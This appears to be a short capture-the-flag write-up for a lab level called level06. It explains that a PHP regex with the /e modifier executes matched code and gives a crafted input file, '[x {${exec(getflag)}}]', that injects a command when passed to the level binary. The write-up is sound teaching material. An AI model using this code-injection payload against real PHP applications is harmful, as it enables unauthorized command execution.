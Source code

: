 # level06

- By checking `level06.php` we can see a `/e` regex that execute the code inside

- We can write to a file in tmp `/tmp/file`
    > [x {${exec(getflag)}}]

- `$ level06 /tmp/file`

